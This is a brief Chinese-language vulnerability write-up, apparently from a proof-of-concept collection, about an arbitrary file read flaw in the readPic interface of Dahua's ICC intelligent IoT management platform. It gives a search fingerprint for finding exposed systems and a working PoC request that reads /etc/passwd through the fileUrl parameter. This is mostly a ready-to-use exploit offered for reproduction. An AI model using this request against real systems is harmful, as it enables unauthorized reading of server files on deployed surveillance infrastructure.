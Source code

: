 # 

# 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

大华 ICC智能物联综合管理平台

## 网络测绘

```
body="*客户端会小于800*"
```

## 漏洞复现

登陆页面

![image-20231116141833821](images/image-20231116141833821.png)

poc

```
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![image-20231116141852063](images/image-20231116141852063.png)
